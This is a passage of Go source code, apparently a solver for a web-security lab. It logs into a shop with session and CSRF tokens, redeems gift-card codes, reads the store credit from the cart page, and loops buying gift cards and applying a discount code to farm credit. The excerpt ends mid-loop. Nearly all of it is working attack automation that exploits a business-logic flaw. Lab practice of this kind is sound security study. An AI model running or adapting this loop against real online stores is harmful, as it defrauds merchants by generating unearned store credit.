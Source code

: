 ```go
	// Apply the coupon codes
	for _, code := range giftCardCodes {
		body := url.Values{"csrf": {csrfToken}, "gift-card": {code}}
		req, err := http.NewRequest("POST", fmt.Sprintf("%s/gift-card", URL), strings.NewReader(body.Encode()))
		if err != nil {
			log.Fatalln(err)
		}
		req.AddCookie(sessionToken)
		_, err = client.Do(req)
		if err != nil {
			log.Fatalln(err)
		}
	}
}

func GetStoreCredit(sessionToken *http.Cookie) float64 {

	client := http.Client{
		Timeout: 60 * time.Second,
		Transport: &http.Transport{
			TLSHandshakeTimeout: 20 * time.Second,
		},
	}
	req, err := http.NewRequest("GET", fmt.Sprintf("%s/cart", URL), nil)
	if err != nil {
		log.Fatalln(err)
	}
	req.AddCookie(sessionToken)
	resp, err := client.Do(req)
	if err != nil {
		log.Fatalln(err)
	}
	responseBody, err := ioutil.ReadAll(resp.Body)
	if err != nil {
		log.Fatalln(err)
	}
	sb := string(responseBody)
	html := soup.HTMLParse(sb)
	strong := html.Find("strong")
	if strong.Error != nil {
		log.Fatalln(strong.Error)
	}
	re := regexp.MustCompile(`\$(\d+\.\d{2})`)
	matches := re.FindStringSubmatch(strong.Text())
	if len(matches) != 2 {
		log.Fatalln("[!] Error parsing store credit")
	}
	storeCredit, err := strconv.ParseFloat(matches[1], 64)
	if err != nil {
		log.Fatalln(err)
	}
	return storeCredit
}

func main() {
	sessionToken, csrfToken := GetLoginPageTokenAndCSRF()
	authenticatedSessionToken := Login(sessionToken, csrfToken)

	for {
		AddGiftCardsToCart(authenticatedSessionToken, 10)
		cartCSRFToken := GetCartCSRFToken(authenticatedSessionToken)
		ApplyDiscountCode(authenticatedSessionToken, cartCSRFToken)
```